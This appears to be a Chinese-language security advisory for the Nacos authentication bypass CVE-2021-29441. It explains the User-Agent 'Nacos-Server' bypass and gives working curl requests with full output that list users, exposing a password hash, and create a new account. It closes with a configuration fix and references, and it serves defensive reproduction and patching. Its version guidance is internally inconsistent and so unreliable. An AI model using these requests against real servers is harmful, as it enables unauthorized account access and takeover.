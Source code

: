# Nacos 存在认证绕过漏洞（CVE-2021-29441）

### 漏洞描述：

nacos是中国阿里巴巴（Alibaba）的一个动态服务发现、配置和服务管理平台。该软件支持基于 DNS 和基于 RPC 的服务发现，可提供提供实时健康检查，阻止服务向不健康的主机或服务实例发送请求等功能。

Nacos 1.4.1对于User-Agent绕过安全漏洞的serverIdentity key-value修复机制存在实现缺陷，当用户通过/nacos/v1/auth/users/?username=test&password=test访问时，users后的/会导致鉴权被绕过，攻击者仍可调用任意API，进行用户创建、查看等操作。

**user-agent为"Nacos-Server"时跳过认证**。

### 影响范围：

com.alibaba.nacos:nacos-common@(-∞, 1.4.1)

### 复现方式/漏洞检测

#### 请求接口

```bash
curl --location 'http://127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=9' \
--header 'User-Agent: Nacos-Server'
```

#### 请求数据与返回数据

```bash
[root@localhost ~]# curl -iv --location 'http://172.16.5.125:31500/nacos/v1/auth/users?pageNo=1&pageSize=9' --header 'User-Agent: Nacos-Server'
* About to connect() to 172.16.5.125 port 31500 (#0)
*   Trying 172.16.5.125...
* Connected to 172.16.5.125 (172.16.5.125) port 31500 (#0)
> GET /nacos/v1/auth/users?pageNo=1&pageSize=9 HTTP/1.1
> Host: 172.16.5.125:31500
> Accept: */*
> User-Agent: Nacos-Server
> 
< HTTP/1.1 200 
HTTP/1.1 200 
< Content-Type: application/json;charset=UTF-8
Content-Type: application/json;charset=UTF-8
< Transfer-Encoding: chunked
Transfer-Encoding: chunked
< Date: Thu, 30 Mar 2023 08:06:32 GMT
Date: Thu, 30 Mar 2023 08:06:32 GMT

< 
* Connection #0 to host 172.16.5.125 left intact
{"totalCount":2,"pageNumber":1,"pagesAvailable":1,"pageItems":[{"username":"nacos","password":"$2a$10$EuWPZHzz32dJN7jexM34MOeYirDdFAZm2kuWj7VEOJhhZkDrxfvUu"}]}
```

#### 请求接口

```bash
curl --location --request POST 'http://127.0.0.1:8848/nacos/v1/auth/users?username=crow&password=crow' \
--header 'User-Agent: Nacos-Server'
```

#### 请求数据与返回数据

```bash
[root@localhost ~]# curl -iv --location --request POST 'http://172.16.5.125:31500/nacos/v1/auth/users?username=crow&password=crow' --header 'User-Agent: Nacos-Server'
* About to connect() to 172.16.5.125 port 31500 (#0)
*   Trying 172.16.5.125...
* Connected to 172.16.5.125 (172.16.5.125) port 31500 (#0)
> POST /nacos/v1/auth/users?username=crow&password=crow HTTP/1.1
> Host: 172.16.5.125:31500
> Accept: */*
> User-Agent: Nacos-Server
> 
< HTTP/1.1 200 
HTTP/1.1 200 
< Content-Type: application/json;charset=UTF-8
Content-Type: application/json;charset=UTF-8
< Transfer-Encoding: chunked
Transfer-Encoding: chunked
< Date: Thu, 30 Mar 2023 08:08:27 GMT
Date: Thu, 30 Mar 2023 08:08:27 GMT

< 
* Connection #0 to host 172.16.5.125 left intact
{"code":200,"message":"create user ok!","data":null}
```

### 修复方案：

将组件 com.alibaba.nacos:nacos-common 升级至 1.4.1 及以上版本

修改nacos配置

```properties
# 关闭白名单  设置为true时， 默认user-agent为"Nacos-Server"会跳过认证
nacos.core.auth.enable.userAgentAuthWhite=false
```

### 参考链接：

https://www.oscs1024.com/hd/MPS-2021-5683

https://nvd.nist.gov/vuln/detail/CVE-2021-29441

https://github.com/alibaba/nacos/issues/4701